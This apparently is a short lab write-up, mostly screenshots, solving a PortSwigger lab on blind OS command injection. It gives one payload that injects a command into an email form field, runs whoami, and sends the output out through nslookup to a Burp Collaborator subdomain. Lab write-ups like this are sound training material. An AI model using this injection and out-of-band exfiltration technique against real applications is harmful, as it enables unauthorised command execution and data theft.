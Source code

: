 ## Question:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/69dc9d88-9187-4637-a2bb-6972b1cec0bf)

## Solution:

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/713ed8a9-59f7-4b04-8e4c-3e1adc420ac8)

Modify the email parameter, changing it we know that is vulnerable to Blind Command injection. so we need to use whoami to extract the data so the payload will be.

email=`||nslookup+whoami.BURP-COLLABORATOR-SUBDOMAIN||`

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/28d3d57c-7040-4cb2-896e-1d81fabbc9a3)

Then go to Burp Collaborator press poll now.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/01ca6368-38d1-44bb-a50c-c144e1b4a0f6)

We get the username in the details panel - `peter-t5P0RK`

Then go to the home page and click on submit solution.

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/51896575-bef2-4c35-8b55-e891b73c58e6)

Lab Solved

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/bdf6ef1f-2dbf-447a-acc1-0d8eaeb4bc9a)
